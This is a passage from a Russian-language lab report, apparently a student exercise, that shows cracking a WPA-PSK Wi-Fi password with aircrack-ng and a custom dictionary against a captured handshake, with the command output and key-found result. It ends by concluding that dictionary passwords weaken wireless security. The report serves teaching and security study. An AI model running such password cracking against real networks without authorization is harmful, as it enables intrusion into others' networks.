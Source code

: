 Попробуем подобрать пароль, используя полученный пакет с рукопожатием.
Для того, что бы взлом происходил быстрее, создадим свой словарь паролей 
(dict.dic).
\begin{lstlisting}
root@kali:$aircrack-ng dump-03.cap -w dict.dicOpening dump-03.cap
Read 1572 packets.

#  BSSID              ESSID                     Encryption

1  12:FE:ED:E5:BD:01  Printer                   WPA (1 handshake)

Choosing first network as target.

Opening dump-03.cap
Reading packets, please wait...

Aircrack-ng 1.2 beta3


[00:00:00] 1 keys tested (345.36 k/s)


Current passphrase: ...                 

KEY FOUND! [ ... ]
KEY FOUND! [ ... ]
45 0D 62 F4 FC 81 69 5F D1 1C 65 80 11 8A 1B 0A 

Transient Key  : 05 01 A0 F0 28 F2 D0 99 79 2B 09 94 38 93 04 7A 
6F C3 75 6C 58 13 7C FB 22 17 99 00 8A 99 79 77 
B9 10 1C 39 DE 5C 0C 29 C5 1C 43 39 B2 06 F5 7B 
EAPOL HMAC     : E9 D0 1B 6C F3 ED A4 F6 FC 83 5D BC 3C 6A 9F 00 

\end{lstlisting}
В результате видим сообщение об успешно подобранном пароле, а так же сам пароль.

\section{Выводы}
В ходе данной работы были изучены основные возможности пакета AirCrack и 
принципы взлома WPA2 в режиме PSK. %
Данный инструмент позволяет прослушивать пакеты в беспроводной, генерировать новые, а так же осуществлять взлом пароля сети при помощи перебора по 
словарю.

В ходе работы было выяснено, что использование общеупотребимых (словарных) паролей значительно облегчает взлом беспроводной сети.
